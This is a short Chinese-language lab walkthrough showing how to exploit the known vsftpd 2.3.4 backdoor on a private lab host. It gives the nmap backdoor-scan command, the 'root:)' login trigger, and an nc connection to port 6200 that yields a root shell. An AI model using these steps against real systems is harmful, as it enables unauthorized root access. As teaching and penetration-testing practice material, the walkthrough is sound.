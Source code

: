 ## 介绍：

VSFTP是一个基于GPL发布的类Unix系统上使用的FTP服务器软件，它的全称是Very Secure FTP 。

vsftpd-2.3.4早期版本存在恶意的后门，通过登录名中嵌入 :) 两个连续符号而触发的漏洞，因外形酷似笑脸而得名。



## 演示

1. 扫描目的主机

   打开kali使用nmap对目的主机进行扫描(目的主机地址为192.168.43.9)

   ```shell
   nmap --script ftp-vsftpd-backdoor 192.168.43.9
   ```

   ![](img/：）/1.png)

2. 触发笑脸漏洞

   在命令行里接着用ftp尝试登录目的主机

   ```
   ftp 192.168.43.9
   ```

   ![](img/：）/2.png)

   这里提示我们输入用户名，我们目的是拿到最高权限，即用root账户登录靶机

   用户名我们输入root：）

   密码随便输入后点击回车等待

   ![](img/：）/3.png)

3. 开始渗透靶机

   打开一个新的命令行，用nc连接靶机

   ```
   nc 192.168.43.9 6200
   ```

   回车后现在就已经连接上了靶机

   ![](img/：）/4.png)

   验证下是否渗透成功

   输入id查看当前登录用户

   ![](img/：）/5.png)

   看到确实是root用户登录